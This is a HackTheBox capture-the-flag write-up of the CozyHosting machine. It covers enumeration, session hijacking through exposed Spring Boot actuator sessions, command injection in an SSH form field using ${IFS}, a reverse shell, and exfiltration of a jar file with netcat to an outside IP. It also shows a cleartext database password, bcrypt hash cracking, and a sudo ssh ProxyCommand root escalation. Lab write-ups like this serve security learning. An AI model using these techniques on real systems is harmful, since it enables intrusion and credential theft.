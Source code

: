 ```yaml
---
title:  "HackTheBox WriteUp - CozyHosting"
date:   2023-12-30
categories: cybersecurity htb
---
```

![card](/assets/images/cozyhosting/CozyHosting.png)
## Enumeration
An initial port scan showed two open ports: 22 and 80. The website hosts some flavor text and a login page.
```
$ nmap -sV -sC -Pn -p1-65535 -o nmap.scan cozyhosting.htb

Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 30 16:09:28 2023 -- 1 IP address (1 host up) scanned in 19.73 seconds
```
A directory scan also showed an admin page, which redirected to the login page. No easily guessable username/password combinations worked.
```
$ ./gobuster dir -u http://cozyhosting.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 97]
/error                (Status: 500) [Size: 73]
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/logout               (Status: 204) [Size: 0]
```

A second directory scan using a different wordlist showed the `actuator` directory, which is a spring boot feature that exposes metrics about the application. 
```
$ ./gobuster dir -u http://cozyhosting.htb -w /usr/share/SecLists/Discovery/Web-Content/quickhits.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/quickhits.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/%ff/                 (Status: 400) [Size: 435]
/actuator             (Status: 200) [Size: 634]
/error                (Status: 500) [Size: 73]
/login                (Status: 200) [Size: 4431]
/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/sessions    (Status: 200) [Size: 148]
/actuator/health      (Status: 200) [Size: 15]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/mappings    (Status: 200) [Size: 9938]

```
The subdirectory `/actuator/env` showed multiple environment variables, sadly with redacted values. The `/actuator/sessions` displayed two sessions with their corresponding session ID.

```
{"0F28127A7CCC83670C29FA7E872CADD1":"kanderson","5600CEDA9C4A0AF01A14B7F633B50416":"UNAUTHORIZED"}
```

With this information a session hijacking attack could be performed, by taking kandersons session ID and setting our own `JSESSIONID` cookie to that value. This gave me access to the `/admin` page.
![admin-page](/assets/images/cozyhosting/image.png)

## Initial Foothold
The admin page contained a tool to add new server to the dashboard. By intercepting the request with Burp, I saw, that a POST request to `/executessh` was made. This made me think, that the server possibly executes an SSH command on the system. I tried multiple different parameters to validate this assumption. Adding a pipeline symbol to the end of the username field, generated a bash error message.

![Alt text](/assets/images/cozyhosting/image-3.png)

The command seemed to be executed in the following way: `ssh <username>@<hostname> ...`. By adding the pipeline, only `ssh <username>` was executed, which isn't a valid command anymore, resulting in the error message. This behaviour could be exploited to get remote command execution on the server. The username variable gets validated to not contain any whitespace characters. This can however be bypassed by using the internal field seperator variable `${IFS}`, which Linux replaces with a regular whitespace. Additionally it seemed like, only error messages got returned in the HTTP response, which is why STDOUT had to be redirected to STDERR to be able to see if the command got executed successfully. This was done using `1>&2`.

The request to execute a command looked like this in the end. The host variable was completely ignored and just had to contain something to count as a "valid" hostname.

![Alt text](/assets/images/cozyhosting/image-4.png)

Now a reverse shell could be executed on the host. To not have to worry about special characters the command was encoded as base64 and decoded on the host, before executing it.

![Alt text](/assets/images/cozyhosting/image-1.png)

In the `/app` directory there was a .jar file. This was downloaded using netcat.

```
$ ls
cloudhosting-0.0.1.jar
```
```
$ nc 10.10.14.8 4445 < cloudhosting-0.0.1.jar
```

The .jar file could now be decompiled using the JD-GUI tool. Inside the `application.properties` some database credentials were found.

![Alt text](/assets/images/cozyhosting/image-2.png)

Back on the reverse shell, the credentials could be used to log into the postgres database. The database contained two tables, one called hosts and one called users. The users table contained password hashes for the kanderson user seen previously and an admin user.

```
$ psql -h localhost -U postgres -d cozyhosting                  
Password for user postgres: Vg&nvzAQ7XxR

\dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

The admin password was able to be cracked using an offline bruteforce attack.

```
hashcat -O -m 3200 -a 0 hashes /usr/share/wordlists/rockyou.txt --show
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

The credentials could then be used to log into the system as the user josh. This led to the user flag.

```
josh@cozyhosting:~$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

Executing `sudo -l` as the josh user showed, that he is allowed to run the ssh CLI using sudo. The ssh CLI does not instantly drop sudo permissions which makes it possible to execute a command using the `ProxyCommand` option. This made it possible to open a shell as root.

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
```

```
# cat root.txt	
XXXXXXXXXXXXXXXXXXXXXXXXX
```


## Reflection
I struggeled alot with getting to the user flag. Working out how to bypass the validation of whitespaces took me a while, but I think this was a good learning experience for the future. After being able to execute commands, getting the reverse shell was easier, thanks to my previous experiences working with the base64 encoding. Additionally I learned how to download files using netcat, which I hadn't done before.